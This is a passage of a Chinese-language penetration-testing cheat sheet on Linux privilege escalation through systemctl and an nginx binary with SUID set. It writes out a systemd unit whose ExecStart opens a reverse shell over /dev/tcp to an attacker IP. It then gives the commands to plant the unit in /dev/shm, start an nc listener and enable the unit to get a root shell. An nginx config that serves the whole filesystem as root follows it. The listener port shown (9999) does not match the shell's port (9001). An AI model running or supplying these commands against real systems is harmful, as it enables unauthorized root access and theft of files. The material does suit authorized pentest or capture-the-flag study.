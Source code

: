 ### （一）mm.service

首先编写一个service unit用来被systemctl加载

```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/bash -i > /dev/tcp/10.10.16.8/9001 0>&1 2<&1"
[Install]
WantedBy=multi-user.target

#生成的unit名位mm.service
```

二、把unit放置在合适的位置

通常unit存放在`/usr/lib/systemd/system/` 和 `/etc/systemd/system/，可以被systemctl加载执行，但是渗透过程中需要提权的场景往往权限较小，这些目录不可写。而systemctl的特性决定了，当unit在/tmp目录下时，无法被systemctl加载。这里需要掌握一个神奇的目录：/dev/shm/,关于这个目录的解读可以移步：https://www.cnblogs.com/tinywan/p/10550356.html学习掌握。这里就可以把我们生成的unit文件放置再这个目录`

三、攻击机上启动监听

```
nc -lvnp 9999
```

四、被攻击机器执行下列命令启动我们写好的service unit

```
systemctl link /dev/shm/mm.service
systemctl enable --now /dev/shm/mm.service
```

这个时候可以在攻击机上看到反弹回的高权限shell

## nginx

### 文件读取

具有nginx的suid权限

编辑nginx配置文件，以root用户运行，映射到1337端口

```
nginx1.conf

user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```
